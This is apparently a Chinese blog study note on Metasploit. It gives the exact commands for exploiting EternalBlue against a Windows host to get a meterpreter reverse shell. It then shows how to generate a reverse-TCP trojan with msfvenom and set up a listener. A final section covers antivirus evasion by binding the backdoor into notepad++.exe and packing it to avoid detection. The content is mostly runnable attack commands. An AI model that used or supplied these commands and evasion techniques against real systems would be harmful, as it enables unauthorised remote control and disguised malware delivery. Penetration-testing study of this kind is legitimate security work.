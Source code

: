 ```yaml
---
title: 网安学习笔记——MSF
date: 2025-08-19 15:59:08
categories: 网安
index_img: https://pic1.imgdb.cn/item/68abb87058cb8da5c8493bf5.png
tags: 
- 渗透 
- Metasploit

---
```


# Metasploit 攻击永恒之蓝全流程
## 一、流程概述
利用 Metasploit 框架，通过永恒之蓝（`ms17_010_eternalblue` ）漏洞对目标 Windows 主机实施攻击，获取 Meterpreter 会话，实现后渗透测试，需合理配置攻击模块参数，涵盖目标与攻击方网络信息、攻击载荷等 。

## 二、具体步骤
### （一）选择攻击模块
在 Metasploit 中，调用永恒之蓝漏洞对应的攻击模块，命令如下：  
```
use exploit/windows/smb/ms17_010_eternalblue
```
该模块针对 Windows SMB 服务，利用永恒之蓝漏洞发起攻击 。  

### （二）查看并配置必选项
1. **查看必选参数**  
    输入 `show options` 命令，筛选 `required` 为 `yes` 的配置项，明确需手动设置的参数，确保攻击流程完整 。  

2. **设置目标主机（RHOSTS）**  
    命令：`set RHOSTS 192.168.1.128`  
    说明：`RHOSTS` 定义攻击目标，填写目标 Windows 主机的 IP 地址，指定要渗透的对象 。  

3. **设置攻击载荷（Payload）**  
    命令：`set payload windows/x64/meterpreter/reverse_tcp`  
    说明：`payload` 决定攻击成功后的行为，选择此载荷可获取 `meterpreter` 交互环境，它是 Metasploit 后渗透阶段的核心工具，支持文件操作、权限提升等多种渗透动作 。  

  ![](https://pic1.imgdb.cn/item/68a48e8058cb8da5c83a622c.png)

4. **设置攻击方监听信息**  
    - **配置监听主机（LHOST）**  
    命令：`set LHOST 192.168.1.136`  
    说明：`LHOST` 为攻击方（Kali 系统）的 IP 地址，用于接收目标主机回连的网络标识 。  
    - **配置监听端口（LPORT）**  
    命令：`set LPORT 12345`  
    说明：`LPORT` 是攻击方在 Kali 上开启的监听端口（范围 1 - 65535 ，需未被系统占用 ），目标主机通过该端口与攻击方建立连接 。  

# 使用Kali生成远控木马及免杀
## 一、生成远控木马流程
### （一）利用msfvenom生成后门程序
`msfvenom` 用于生成后门，在目标机执行后，本地监听可实现远控 ，在shell环境使用，而非`msfconsole`终端。  
命令格式（Windows可执行程序后门）：  

```bash
msfvenom -p [payload] lhost=[本地IP] lport=[本地端口] -f [输出格式] -o [输出文件名]
```
示例：  
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.123.136 lport=9999 -f exe -o demo.exe
```
参数解析：  
- `payload` ：如`windows/x64/meterpreter/reverse_tcp` ，指定系统、架构、作用方式  
- `lhost` ：本地监听IP，即攻击者机器IP  
- `lport` ：本地监听端口，自定义设置  
- `f` ：输出文件格式，`exe` 对应Windows可执行文件  
- `o` ：设置输出文件名  

![](https://pic1.imgdb.cn/item/68a8074e58cb8da5c8425e3c.png)

### （二）开启监听等待上线
在`msfconsole`中操作，用于监听目标机连接：  
1. 选择模块：`use exploit/multi/handler`  
2. 设置payload：`set payload windows/x64/meterpreter/reverse_tcp`  
3. 配置本地IP：`set lhost 192.168.123.136`（与生成木马时一致 ）  
4. 配置监听端口：`set lport 9999`（与生成木马时一致 ）  
5. 启动监听：`run`  

![](https://pic1.imgdb.cn/item/68a807c158cb8da5c8425e70.png)

## 二、免杀处理（躲避杀毒软件查杀）
### （一）捆绑木马
将木马与正常程序捆绑，伪装降低查杀概率。  
命令格式：  

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[本地IP] lport=[本地端口] -f exe -x [正常程序路径] -o [输出文件名]
```
示例：  
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=9999 -f exe -x notepad++.exe -o notepad++.exe
```
`-x` 参数用于指定捆绑的正常程序（如系统常见的`notepad++.exe` ）  

### （二）加壳免杀
通过加压缩壳、加密壳等方式修改程序特征，躲避查杀。不同杀毒软件检测逻辑不同，需自行测试效果，如部分加壳后可通过“火绒安全”病毒查杀（显示“本次扫描未发现风险” ） ，常见加壳工具可辅助实现压缩壳、加密壳添加操作。 



